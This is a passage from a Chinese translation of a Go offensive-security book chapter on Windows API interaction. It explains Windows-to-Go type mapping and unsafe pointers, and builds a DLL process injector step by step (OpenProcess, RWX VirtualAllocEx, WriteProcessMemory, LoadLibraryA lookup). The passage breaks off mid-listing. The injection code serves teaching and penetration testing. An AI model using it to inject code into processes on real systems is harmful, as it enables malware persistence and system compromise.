







## 12

WINDOWS 系统交互与分析


有许多种开发微软 Windows 攻击的方法——太多了，无法在本章中一一覆盖。我们不会讨论所有方法，而是介绍并研究一些技术，这些技术无论是在最初阶段还是在后期利用过程中，都可以帮助你攻击 Windows 系统。

在讨论完微软 API 文档和一些安全问题后，我们将讨论三个主题。首先，我们将使用 Go 的核心`syscall`包，通过执行进程注入来与各种系统级 Windows API 进行交互。第二，我们将探索 Go 的核心包，用于处理 Windows 便携式可执行文件（PE）格式，并编写一个 PE 文件格式解析器。第三，我们将讨论使用 C 代码与原生 Go 代码结合的技术。你需要掌握这些应用技术，才能构建出创新的 Windows 攻击。

### Windows API 的 OpenProcess()函数

要攻击 Windows 系统，你需要了解 Windows API。我们将通过查看`OpenProcess()`函数来探索 Windows API 文档，该函数用于获取远程进程的句柄。你可以在[*https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-openprocess/*](https://docs.microsoft.com/en-us/windows/desktop/api/processthreadsapi/nf-processthreadsapi-openprocess/)找到`OpenProcess()`的文档。*图 12-1*展示了该函数的对象属性详细信息。



*图 12-1：* OpenProcess()的 Windows API 对象结构

在这个实例中，我们可以看到该对象看起来非常像 Go 中的结构体类型。然而，C++结构体字段类型未必与 Go 类型相匹配，微软数据类型也不总是与 Go 数据类型对接。

Windows 数据类型定义参考位于[*https://docs.microsoft.com/en-us/windows/desktop/WinProg/windows-data-types/*](https://docs.microsoft.com/en-us/windows/desktop/WinProg/windows-data-types/)，在将 Windows 数据类型与 Go 的相应数据类型对照时，这一参考非常有帮助。表 12-1 展示了我们将在本章后面使用的类型转换。

**表 12-1：** 将 Windows 数据类型映射到 Go 数据类型

| **Windows 数据类型** | **Go 数据类型** |
| --- | --- |
| `BOOLEAN` | `byte` |
| `BOOL` | `int32` |
| `BYTE` | `byte` |
| `DWORD` | `uint32` |
| `DWORD32` | `uint32` |
| `DWORD64` | `uint64` |
| `WORD` | `uint16` |
| `HANDLE` | `uintptr（无符号整数指针）` |
| `LPVOID` | `uintptr` |
| `SIZE_T` | `uintptr` |
| `LPCVOID` | `uintptr` |
| `HMODULE` | `uintptr` |
| `LPCSTR` | `uintptr` |
| `LPDWORD` | `uintptr` |

Go 文档将 `uintptr` 数据类型定义为“足够大的整数类型，可以容纳任何指针的位模式。”这是一个特殊的数据类型，正如您将在后面讨论 Go 的 `unsafe` 包和类型转换时看到的那样，特别是在“unsafe.Pointer 和 uintptr 类型”部分，位于第 266 页。现在，让我们继续完成 Windows API 文档的阅读。

接下来，您应该查看对象的参数；文档中的参数部分提供了详细信息。例如，第一个参数 `dwDesiredAccess` 提供了有关进程句柄应具有的访问级别的具体信息。之后，返回值部分定义了系统调用成功和失败的预期值（见图 12-2）。


*图 12-2：预期返回值的定义*

在我们接下来的示例代码中，我们将利用 `syscall` 包中的 `GetLastError` 错误消息，尽管这会稍微偏离标准的错误处理方式（例如 `err != nil` 语法）。

我们的 Windows API 文档的最后一部分“要求”提供了重要的细节，如图 12-3 所示。最后一行定义了 *动态链接库（DLL）*，该库包含可导出的函数（例如 `OpenProcess()`），并且在我们构建 Windows DLL 模块的变量声明时将是必需的。换句话说，我们不能在 Go 中调用相关的 Windows API 函数，除非知道适当的 Windows DLL 模块。随着我们继续进行下一个进程注入示例，这一点会变得更加清晰。



*图 12-3：要求部分定义了调用 API 所需的库。*

### unsafe.Pointer 和 uintptr 类型

在处理 Go 的 `syscall` 包时，我们必须绕过 Go 的类型安全保护。原因是我们需要进行例如建立共享内存结构，并在 Go 和 C 之间执行类型转换等操作。本节为您提供了操控内存所需的基础知识，但您还应该进一步探索 Go 的官方文档。

我们将通过使用 Go 的 `unsafe` 包（在第九章中提到）绕过 Go 的安全措施，该包包含可以绕过 Go 程序类型安全性的操作。Go 提供了四个基本准则来帮助我们：

+   任何类型的指针值都可以转换为 `unsafe.Pointer`。

+   `unsafe.Pointer` 可以转换为任何类型的指针值。

+   `uintptr` 可以转换为 `unsafe.Pointer`。

+   `unsafe.Pointer` 可以转换为 `uintptr`。

**警告**

*请记住，导入了 `unsafe` 包的包可能不具备可移植性，并且尽管 Go 通常确保 Go 版本 1 的兼容性，使用 `unsafe` 包会破坏所有关于这一点的保证。*

`uintptr` 类型允许你在原生安全类型之间进行类型转换或运算等操作。虽然 `uintptr` 是一个整数类型，但它广泛用于表示内存地址。当与类型安全的指针一起使用时，Go 的原生垃圾回收器会在运行时维护相关的引用。

然而，当引入 `unsafe.Pointer` 时，情况发生了变化。回想一下，`uintptr` 本质上只是一个无符号整数。如果通过 `unsafe.Pointer` 创建一个指针值，然后将其分配给 `uintptr`，则不能保证 Go 的垃圾回收器会维护被引用内存位置的值的完整性。图 12-4 有助于进一步描述这个问题。



*图 12-4：使用* uintptr *和* unsafe.Pointer 时可能存在的危险指针

图片的上半部分展示了 `uintptr` 与一个 Go 类型安全指针的引用值。因此，它将在运行时维护其引用，并且会进行严格的垃圾回收。图片的下半部分展示了虽然 `uintptr` 引用了一个 `unsafe.Pointer` 类型，但它可以被垃圾回收，因为 Go 不会保存或管理指向任意数据类型的指针。清单 12-1 展示了这个问题。

```
func state() {
var onload = createEvents("onload") ❶
    var receive = createEvents("receive") ❷
    var success = createEvents("success") ❸

    mapEvents := make(map[string]interface{})
    mapEvents["messageOnload"] = unsafe.Pointer(onload)
    mapEvents["messageReceive"] = unsafe.Pointer(receive) ❹
    mapEvents["messageSuccess"] = uintptr(unsafe.Pointer(success)) ❺

    //This line is safe - retains orginal value
    fmt.Println(*(*string)(mapEvents["messageReceive"].(unsafe.Pointer))) ❻

    //This line is unsafe - original value could be garbage collected
    fmt.Println(*(*string)(unsafe.Pointer(mapEvents["messageSuccess"].(uintptr)))) ❼
}

func createEvents(s string)❽ *string {
    return &s
}
```

*清单 12-1：使用* uintptr *同时安全和不安全地与* unsafe.Pointer 配合使用

这个代码示例可能是某人在尝试创建状态机的代码。例如，它有三个变量，通过调用`createEvents()` ❽ 函数将它们的指针值分别赋值为 `onload` ❶、`receive` ❷ 和 `success` ❸。然后，我们创建一个包含`string`类型的键以及`interface{}`类型的值的映射。我们使用`interface{}`类型，因为它可以接收不同的数据类型。在这种情况下，我们将它用来接收`unsafe.Pointer` ❹ 和 `uintptr` ❺ 的值。

此时，你很可能已经发现了危险的代码部分。尽管 `mapEvents["messageRecieve"]` 映射条目 ❹ 的类型是 `unsafe.Pointer`，但它仍然保持对 `receive` ❷ 变量的原始引用，并将提供与最初相同的一致输出 ❻。相反，`mapEvents["messageSuccess"]` 映射条目 ❺ 的类型是 `uintptr`。这意味着，一旦引用 `success` 变量的 `unsafe.Pointer` 值被分配给 `uintptr` 类型，`success` 变量 ❸ 就可以被垃圾回收。再次提醒，`uintptr` 只是一个保存内存地址字面值的类型，而不是指针的引用。因此，无法保证会产生预期的输出 ❼，因为该值可能不再存在。

有没有一种安全的方法可以将 `uintptr` 与 `unsafe.Pointer` 一起使用呢？我们可以通过利用 `runtime.Keepalive` 来做到这一点，它可以防止变量被垃圾回收。让我们通过修改之前的代码块（清单 12-2）来查看这一点。

```
func state() {
var onload = createEvents("onload")
    var receive = createEvents("receive")
    var success❶ = createEvents("success")

    mapEvents := make(map[string]interface{})
    mapEvents["messageOnload"] = unsafe.Pointer(onload)
    mapEvents["messageReceive"] = unsafe.Pointer(receive)
    mapEvents["messageSuccess"] = uintptr(unsafe.Pointer(success))❷

    //This line is safe - retains orginal value
    fmt.Println(*(*string)(mapEvents["messageReceive"].(unsafe.Pointer)))

    //This line is unsafe - original value could be garbage collected
    fmt.Println(*(*string)(unsafe.Pointer(mapEvents["messageSuccess"].(uintptr))))

    runtime.KeepAlive(success) ❸
}

func createEvents(s string) *string {
    return &s
}
```

*清单 12-2：清单 7-2：使用* runtime.KeepAlive() *函数来防止变量的垃圾回收*

说真的，我们只添加了一行小小的代码❸！这行代码 `runtime.KeepAlive(success)` 告诉 Go 运行时确保 `success` 变量在显式释放或运行状态结束之前始终保持可访问。这意味着尽管 `success` 变量❶被存储为 `uintptr` ❷，它不能被垃圾回收，因为有了显式的 `runtime.KeepAlive()` 指令。

请注意，Go 的 `syscall` 包广泛使用 `uintptr(unsafe``.Pointer()``)`，尽管某些函数，如 `syscall9()`，通过异常提供类型安全，但并非所有函数都使用这种方式。此外，在你自己项目代码的黑客攻击过程中，你几乎肯定会遇到需要以不安全的方式操作堆或栈内存的情况。

### 使用 syscall 包进行进程注入

通常，我们需要将自己的代码注入到一个进程中。这可能是因为我们希望获得对系统的远程命令行访问（shell），或者在源代码不可用时调试运行中的应用程序。了解进程注入的机制还将帮助你执行更有趣的任务，例如加载驻留内存中的恶意软件或钩取函数。不管怎样，本节将演示如何使用 Go 语言与 Microsoft Windows API 交互以执行进程注入。我们将把存储在磁盘上的有效载荷注入到现有进程的内存中。图 12-5 描述了整个事件链。



*图 12-5：基本进程注入*

在第 1 步中，我们使用 `OpenProcess()` Windows 函数来建立进程句柄，并设置所需的进程访问权限。这是进行进程级交互的必要条件，无论我们处理的是本地进程还是远程进程。

一旦获得了必要的进程句柄，我们将在第 2 步中使用它，并结合 `VirtualAllocEx()` Windows 函数，为远程进程分配虚拟内存。这是将字节级代码（例如 shellcode 或 DLL）加载到远程进程内存中的必要条件。

在第 3 步中，我们通过使用 `WriteProcessMemory()` Windows 函数将字节级代码加载到内存中。在注入过程中，我们作为攻击者，决定如何创意地编写我们的 shellcode 或 DLL。这也是你可能需要注入调试代码的地方，尤其是在试图理解一个正在运行的程序时。

最后，在第 4 步中，我们使用 `CreateRemoteThread()` Windows 函数作为调用本地导出的 Windows DLL 函数（例如位于 *Kernel32.dll* 中的 `LoadLibraryA()`）的方法，以便我们可以执行之前通过 `WriteProcessMemory()` 放置在进程中的代码。

我们刚才描述的四个步骤提供了一个基本的进程注入示例。我们将在整体进程注入示例中定义一些额外的文件和函数，尽管这些内容不一定在这里详细描述，但我们会在遇到时逐一说明。

#### 定义 Windows DLL 并分配变量

第一步是创建 *winmods* 文件，见 清单 12-3。（所有位于根位置的代码清单都存在于提供的 GitHub 仓库 *[`github.com/blackhat-go/bhg/`](https://github.com/blackhat-go/bhg/)* 中。）此文件定义了原生的 Windows DLL，包含我们将通过 Go 的 `syscall` 包调用的导出系统级 API。*winmods* 文件包含比我们的示例项目所需更多的 Windows DLL 模块引用的声明和分配，但我们会记录它们，方便你在更高级的注入代码中使用。

```
import "syscall"

var (
 ❶ ModKernel32 = syscall.NewLazyDLL("kernel32.dll")
    modUser32   = syscall.NewLazyDLL("user32.dll")
    modAdvapi32 = syscall.NewLazyDLL("Advapi32.dll")

    ProcOpenProcessToken      = modAdvapi32.NewProc("GetProcessToken")
    ProcLookupPrivilegeValueW = modAdvapi32.NewProc("LookupPrivilegeValueW")
    ProcLookupPrivilegeNameW  = modAdvapi32.NewProc("LookupPrivilegeNameW")
    ProcAdjustTokenPrivileges = modAdvapi32.NewProc("AdjustTokenPrivileges")
    ProcGetAsyncKeyState      = modUser32.NewProc("GetAsyncKeyState")
    ProcVirtualAlloc          = ModKernel32.NewProc("VirtualAlloc")
    ProcCreateThread          = ModKernel32.NewProc("CreateThread")
    ProcWaitForSingleObject   = ModKernel32.NewProc("WaitForSingleObject")
    ProcVirtualAllocEx        = ModKernel32.NewProc("VirtualAllocEx")
    ProcVirtualFreeEx         = ModKernel32.NewProc("VirtualFreeEx")
    ProcCreateRemoteThread    = ModKernel32.NewProc("CreateRemoteThread")
    ProcGetLastError          = ModKernel32.NewProc("GetLastError")
    ProcWriteProcessMemory    = ModKernel32.NewProc("WriteProcessMemory")
 ❷ ProcOpenProcess           = ModKernel32.NewProc("OpenProcess")
    ProcGetCurrentProcess     = ModKernel32.NewProc("GetCurrentProcess")
    ProcIsDebuggerPresent     = ModKernel32.NewProc("IsDebuggerPresent")
    ProcGetProcAddress        = ModKernel32.NewProc("GetProcAddress")
    ProcCloseHandle           = ModKernel32.NewProc("CloseHandle")
    ProcGetExitCodeThread     = ModKernel32.NewProc("GetExitCodeThread")
)
```

*清单 12-3：* winmods *文件 (*[/ch-12/procInjector/winsys/winmods.go](https://github.com/blackhat-go/bhg/blob/master/ch-12/procInjector/winsys/winmods.go)*)*

我们使用 `NewLazyDLL()` 方法加载 `Kernel32` DLL ❶。`Kernel32` 管理 Windows 内部的许多进程功能，例如寻址、处理、内存分配等。（值得注意的是，从 Go 版本 1.12.2 开始，你可以使用几个新函数来更好地加载 DLL 并防止系统 DLL 劫持攻击：`LoadLibraryEx()` 和 `NewLazySystemDLL()`。）

在我们与 DLL 交互之前，必须建立一个可以在代码中使用的变量。我们通过调用 `module.NewProc` 为每个需要使用的 API 进行定义。在 ❷ 处，我们调用 `OpenProcess()` 并将其分配给一个名为 `ProcOpenProcess` 的导出变量。使用 `OpenProcess()` 是任意的；它旨在演示如何将任何导出的 Windows DLL 函数分配给一个描述性变量名的技巧。

#### 使用 OpenProcess Windows API 获取进程令牌

接下来，我们构建 `OpenProcessHandle()` 函数，用于获取进程句柄令牌。我们可能会在代码中交替使用 *token*（令牌）和 *handle*（句柄）这两个术语，但要明白，每个 Windows 系统中的进程都有一个唯一的进程令牌。它提供了一种执行相关安全模型的手段，例如 *强制完整性控制*，这是一种复杂的安全模型（值得研究，以更好地了解进程级别的机制）。这些安全模型包括进程级别的权限和特权，例如，并规定了普通进程和提升权限进程如何相互作用。

首先，让我们查看 C++ `OpenProcess()`数据结构，按照 Windows API 文档中的定义（Listing 12-4）。我们将定义这个对象，就像我们打算从本机 Windows C++代码中调用它一样。然而，我们并不会这么做，因为我们将定义这个对象以便与 Go 的`syscall`包一起使用。因此，我们需要将这个对象转换为标准的 Go 数据类型。

```
HANDLE OpenProcess(
  DWORD❶ dwDesiredAccess,
  BOOL  bInheritHandle,
  DWORD dwProcessId
);
```

*Listing 12-4: 任意的 Windows C++对象和数据类型*

首先需要做的任务是将`DWORD` ❶转换为 Go 所支持的可用类型。`DWORD`由微软定义为 32 位无符号整数，等同于 Go 的`uint32`类型。`DWORD`值表明它必须包含`dwDesiredAccess`，或者正如文档所述，“一个或多个进程访问权限。”进程访问权限定义了在有效的进程令牌下，我们希望对进程执行的操作。

我们想要声明多种进程访问权限。由于这些值不会变化，因此我们将相关值放入 Go 常量文件中，如 Listing 12-5 所示。列表中的每一行定义了一个进程访问权限。该列表包含了几乎所有可用的进程访问权限，但我们只会使用获取进程句柄所必需的那些。

```
const (
    // docs.microsoft.com/en-us/windows/desktop/ProcThread/process-security-and-access-rights
    PROCESS_CREATE_PROCESS            = 0x0080
    PROCESS_CREATE_THREAD             = 0x0002
    PROCESS_DUP_HANDLE                = 0x0040
    PROCESS_QUERY_INFORMATION         = 0x0400
    PROCESS_QUERY_LIMITED_INFORMATION = 0x1000
    PROCESS_SET_INFORMATION           = 0x0200
    PROCESS_SET_QUOTA                 = 0x0100
    PROCESS_SUSPEND_RESUME            = 0x0800
 PROCESS_TERMINATE                 = 0x0001
    PROCESS_VM_OPERATION              = 0x0008
    PROCESS_VM_READ                   = 0x0010
    PROCESS_VM_WRITE                  = 0x0020
    PROCESS_ALL_ACCESS                = 0x001F0FFF
)
```

*Listing 12-5: 声明进程访问权限的常量部分 (*[/ch-12/procInjector/winsys/constants.go](https://github.com/blackhat-go/bhg/blob/master/ch-12/procInjector/winsys/constants.go)*)*

我们在 Listing 12-5 中定义的所有进程访问权限都与它们各自的常量十六进制值相匹配，这就是它们需要的格式，以便将它们分配给 Go 变量。

在我们查看 Listing 12-6 之前，有一个问题我们想要描述，那就是，接下来大多数进程注入函数，不仅仅是`OpenProcessHandle()`，将会使用一个类型为`Inject`的自定义对象，并返回一个`error`类型的值。`Inject`结构体对象（Listing 12-6）将包含将通过`syscall`传递给相关 Windows 函数的各种值。

```
type Inject struct {
    Pid              uint32
    DllPath          string
    DLLSize          uint32
    Privilege        string
    RemoteProcHandle uintptr
    Lpaddr           uintptr
    LoadLibAddr      uintptr
    RThread          uintptr
    Token            TOKEN
}

type TOKEN struct {
    tokenHandle syscall.Token
}
```

*Listing 12-6: 用于保存特定进程注入数据类型的* Inject *结构体* ([/ch-12 /procInjector/winsys/models.go](https://github.com/blackhat-go/bhg/blob/master/ch-12/procInjector/winsys/models.go))

Listing 12-7 展示了我们的第一个实际函数，`OpenProcessHandle()`。让我们查看以下代码块并讨论其中的各种细节。

```
func OpenProcessHandle(i *Inject) error {
    ❶ var rights uint32 = PROCESS_CREATE_THREAD |
        PROCESS_QUERY_INFORMATION |
        PROCESS_VM_OPERATION |
        PROCESS_VM_WRITE |
        PROCESS_VM_READ
    ❷ var inheritHandle uint32 = 0
    ❸ var processID uint32 = i.Pid
    ❹ remoteProcHandle, _, lastErr❺ := ProcOpenProcess.Call❻(
        uintptr(rights), // DWORD dwDesiredAccess
        uintptr(inheritHandle), // BOOL  bInheritHandle
        uintptr(processID)) // DWORD dwProcessId
    if remoteProcHandle == 0 {
        return errors.Wrap(lastErr, `[!] ERROR :
 Can't Open Remote Process. Maybe running w elevated integrity?`)
    }
    i.RemoteProcHandle = remoteProcHandle
    fmt.Printf("[-] Input PID: %v\n", i.Pid)
    fmt.Printf("[-] Input DLL: %v\n", i.DllPath)
    fmt.Printf("[+] Process handle: %v\n", unsafe.Pointer(i.RemoteProcHandle))
    return nil
}
```

*Listing 12-7: 用于获取进程句柄的* OpenProcessHandle() *函数* ([/ch-12 /procInjector/winsys/inject.go](https://github.com/blackhat-go/bhg/blob/master/ch-12/procInjector/winsys/inject.go))

代码首先通过将进程访问权限分配给名为`rights`的`uint32`变量来开始❶。实际分配的值包括`PROCESS_CREATE_THREAD`，它允许我们在远程进程上创建线程。接下来是`PROCESS_QUERY_INFORMAITON`，它使我们能够通用地查询远程进程的详细信息。最后三个进程访问权限，`PROCESS_VM_OPERATION`、`PROCESS_VM_WRITE`和`PROCESS_VM_READ`，都提供了管理远程进程虚拟内存的访问权限。

下一个声明的变量`inheritHandle` ❷决定了我们的新进程句柄是否会继承现有句柄。我们传入`0`表示布尔值的假（false），因为我们希望获得一个新的进程句柄。紧随其后的是`processID` ❸变量，包含了受害进程的 PID。与此同时，我们根据 Windows API 文档协调我们的变量类型，确保我们声明的两个变量都是`uint32`类型。这种模式一直延续，直到我们通过使用`ProcOpenProcess.Call()` ❻进行系统调用为止。

`.Call()`方法消耗不定数量的`uintptr`值，如果我们查看`Call()`函数签名，实际上它会声明为`...uintptr`。此外，返回类型被指定为`uintptr` ❹和`error` ❺。另外，错误类型命名为`lastErr` ❺，你会在 Windows API 文档中找到它的引用，并且它包含了由实际调用的函数定义的返回错误值。

#### 使用 VirtualAllocEx Windows API 操作内存

现在我们有了远程进程句柄，需要一种方法在远程进程内分配虚拟内存。这是必要的，以便在写入内存之前为其预留一块内存区域并进行初始化。让我们现在来实现这一点。将 Listing 12-8 中定义的函数紧接着 Listing 12-7 中定义的函数放置。（随着我们继续操作过程注入代码，函数会一个接一个地追加。）

```
func VirtualAllocEx(i *Inject) error {
    var flAllocationType uint32 = MEM_COMMIT | MEM_RESERVE
    var flProtect uint32 = PAGE_EXECUTE_READWRITE
    lpBaseAddress, _, lastErr := ProcVirtualAllocEx.Call(
        i.RemoteProcHandle, // HANDLE hProcess
        uintptr(nullRef), // LPVOID lpAddress ❶
        uintptr(i.DLLSize), // SIZE_T dwSize
        uintptr(flAllocationType), // DWORD  flAllocationType
        // https://docs.microsoft.com/en-us/windows/desktop/Memory/memory-protection-constants
uintptr(flProtect)) // DWORD  flProtect
    if lpBaseAddress == 0 {
        return errors.Wrap(lastErr, "[!] ERROR : Can't Allocate Memory On Remote Process.")
    }
    i.Lpaddr = lpBaseAddress
    fmt.Printf("[+] Base memory address: %v\n", unsafe.Pointer(i.Lpaddr))
    return nil
}
```

*Listing 12-8: 通过* VirtualAllocEx ([/ch-12/procInjector /winsys/inject.go](https://github.com/blackhat-go/bhg/blob/master/ch-12/procInjector/winsys/inject.go)) *分配远程进程中的内存区域*

与之前的`OpenProcess()`系统调用不同，我们通过`nullRef`变量引入了一个新的细节❶。`nil`关键字被 Go 语言保留用于所有`null`的用途。然而，它是一个类型化的值，这意味着如果直接通过`syscall`传递它而不指定类型，将导致运行时错误或类型转换错误——无论哪种情况，都是不好的。此问题的解决方法很简单：我们声明一个解析为`0`值的变量，例如整数。现在，`0`值可以被可靠地传递并被接收的 Windows 函数解释为`null`值。

#### 使用 WriteProcessMemory Windows API 写入内存

接下来，我们将使用 `WriteProcessMemory()` 函数将数据写入先前通过 `VirtualAllocEx()` 函数初始化的远程进程内存区域。在 示例 12-9 中，我们将通过文件路径调用 DLL，而不是将整个 DLL 代码写入内存，从而简化处理。

```
func WriteProcessMemory(i *Inject) error {
    var nBytesWritten *byte
    dllPathBytes, err := syscall.BytePtrFromString(i.DllPath) ❶
    if err != nil {
        return err
    }
    writeMem, _, lastErr := ProcWriteProcessMemory.Call(
        i.RemoteProcHandle, // HANDLE  hProcess
        i.Lpaddr, // LPVOID  lpBaseAddress
        uintptr(unsafe.Pointer(dllPathBytes)), // LPCVOID lpBuffer ❷
        uintptr(i.DLLSize), // SIZE_T  nSize
        uintptr(unsafe.Pointer(nBytesWritten))) // SIZE_T  *lpNumberOfBytesWritten
    if writeMem == 0 {
        return errors.Wrap(lastErr, "[!] ERROR : Can't write to process memory.")
    }
    return nil
}
```

*示例 12-9：将 DLL 文件路径写入远程进程内存*（*[/ch-12/procInjector/winsys/inject.go](https://github.com/blackhat-go/bhg/blob/master/ch-12/procInjector/winsys/inject.go)*）

第一个显著的 `syscall` 函数是 `BytePtrFromString()` ❶，它是一个便捷函数，接受一个 `string` 并返回一个 `byte` 切片的基地址指针位置，我们将其赋值给 `dllPathBytes`。

最后，我们将看到 `unsafe.Pointer` 的实际应用。`ProcWriteProcessMemory.Call` 的第三个参数在 Windows API 规范中定义为 “`lpBuffer`——指向包含要写入指定进程地址空间数据的缓冲区的指针。” 为了将 `dllPathBytes` 中定义的 Go 指针值传递给接收的 Windows 函数，我们使用 `unsafe.Pointer` 来绕过类型转换。这里需要最后提到的一点是，`uintptr` 和 `unsafe.Pointer` ❷ 是可以安全使用的，因为它们都在内联中使用，并且没有将返回值分配给变量以便后续重用的意图。

#### 使用 GetProcessAddress Windows API 查找 LoadLibraryA

*Kernel32.dll* 导出了一个名为 `LoadLibraryA()` 的函数，它在所有 Windows 版本中都可用。微软文档中指出，`LoadLibraryA()` “将指定模块加载到调用进程的地址空间中。指定的模块可能会导致其他模块被加载。” 在创建必要的远程线程以执行我们的实际进程注入之前，我们需要获取 `LoadLibraryA()` 的内存位置。我们可以通过 `GetLoadLibAddress()` 函数来实现这一点——这是前面提到的支持函数之一（示例 12-10）。

```
func GetLoadLibAddress(i *Inject) error {
    var llibBytePtr *byte
    llibBytePtr, err := syscall.BytePtrFromString("LoadLibraryA") ❶
    if err != nil {
        return err
    }
    lladdr, _, lastErr := ProcGetProcAddress.Call❷(
